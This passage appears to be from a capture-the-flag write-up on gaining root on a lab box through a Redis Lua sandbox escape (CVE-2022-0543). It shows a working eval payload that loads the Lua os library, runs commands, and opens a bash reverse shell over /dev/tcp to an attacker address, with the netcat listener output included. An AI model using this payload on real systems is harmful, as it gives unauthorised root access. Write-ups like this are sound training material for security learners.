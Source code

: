 
It seems to work. But there’s no file in `/tmp`:

    
    
    dan_smith@shared:~$ ls /tmp/
    systemd-private-bec33c1489384520996f91f25f4fa934-redis-server.service-bo2wJh
    systemd-private-bec33c1489384520996f91f25f4fa934-systemd-logind.service-yzWFZh
    systemd-private-bec33c1489384520996f91f25f4fa934-systemd-timesyncd.service-n0pL5g
    vmware-root_398-558012343
    

Writing to `/tmp` can be weird. I’ll try `/dev/shm`:

    
    
    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /dev/shm/redis_poc"); return 0' 0 
    (integer) 0
    

It works:

    
    
    dan_smith@shared:~$ ls /dev/shm/
    redis_poc
    

#### Shell

I can use this to get a reverse shell:

    
    
    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("bash -c \'bash -i >& /dev/tcp/10.10.14.6/443 0>&1\'"); return 0' 0
    

It hangs, but at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.172 36284
    bash: cannot set terminal process group (2058): Inappropriate ioctl for device
    bash: no job control in this shell
    root@shared:/var/lib/redis#
    

This shell seems to die every minute, so I’ll have to work quickly to get the
flag:

    
    
    root@shared:~# cat root.txt
    55e4f416************************
    

#### Script

Googling for “cve-2022-0543 site:github.com” returns a [POC by
aodsec](https://github.com/aodsec/CVE-2022-0543/blob/main/CVE-2022-0543.py),
which takes a slightly different approach to the loaded Lua, and manages to
get output printed in the Redis terminal:
